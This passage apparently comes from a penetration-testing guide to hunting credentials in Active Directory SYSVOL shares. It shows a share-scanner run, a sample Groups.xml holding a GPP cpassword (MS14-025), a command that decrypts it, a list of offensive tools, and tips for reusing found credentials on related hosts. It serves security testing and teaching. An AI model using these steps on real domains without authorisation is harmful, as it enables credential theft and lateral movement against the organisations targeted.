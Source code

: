 And more interestingly, here's a hit for the same string in a 'Groups.xml' file.

```
$ python3 ./share_scanner.py -d "lab.domain" -u "MyUsername" -p 'MyPassword' -tf "smb_targets.txt" --sysvol "True"

...
[*] Crawling share: SYSVOL
[*] Current path: ./lab.domain/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}
[*] Current depth: 4 of limit 5
[+] Found files
                GPT.INI 22
                Groups.xml 622
[+] Keyword match for "password" within Groups.xml
...
```

Here's the content (sample data pulled from adsecurity.org). Note the 'cpassword' value, which is the subject of MS14-025.

```
<?xml version="1.0? encoding="utf-8??>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="TmpLocalAdmin" image="0 changed="2013-07-04 00:07:13 uid="{47F24835-4B58-4C48-A749-5747EAC84669}">
<Properties action="C" fullName="" description="" cpassword="sFWOJZOU7bJICaqvmd+KAEN0o4RcpxxMLWnK7s7zgNR+JiJwoSa+DLU3kAIdXc1WW5NKrIjIe9MIdBuJHvqFgbcNS873bDK2nbQBqpydkjbsPXV0HRPpQ96phie6N9tn4NF3KYyswokkDnj8gvuyZBXqoG94ML8M1Iq7/jhe37eHJiZGyi5IBoPuCfKpurj2" changeLogon="0" noChange="0" neverExpires="0" acctDisabled="0" userName="LocalTestUser"/>
</User>
</Groups>
```

And here's a sample decryption of the password, which could yield access to a high privileged local account.

```
$ python3 ./decrypt_cpassword.py sFWOJZOU7bJICaqvmd+KAEN0o4RcpxxMLWnK7s7zgNR+JiJwoSa+DLU3kAIdXc1WW5NKrIjIe9MIdBuJHvqFgbcNS873bDK2nbQBqpydkjbsPXV0HRPpQ96phie6N9tn4NF3KYyswokkDnj8gvuyZBXqoG94ML8M1Iq7/jhe37eHJiZGyi5IBoPuCfKpurj2

Password is: This is the password - you shouldn't be able to see this. Oops! 2013
```

**Tools:**
- [decrypt_cpassword.py](https://gist.github.com/edeca/ba2404850c748f48f6511e63f8958fef)
- [Metasploit smb_enum_gpp](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_enum_gpp/)
- [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- Other share scanning tools mentioned earlier

### Insights

- When crawling SYSVOL, look for anything of use. Sometimes contextual information can aid your in your attack in ways that credentials just can't. For example, you might stumble upon a configuration file for an enterprise security product, or scripts used to provision some enterprise software on new endpoints.
- When testing local account credentials found in SYSVOL, look for target hosts related to the username obtained. For example, if you find credentials for the "database_admin" users, search for hosts with "sql" in the hostnames, or hosts running a SQL server. Test the credentials there.
- Keep in mind that credentials found within SYSVOL have a good chance of being outdated. It's possible that a previous tester found them, reported them, and the remediation did not involve removing the file containing the credentials.
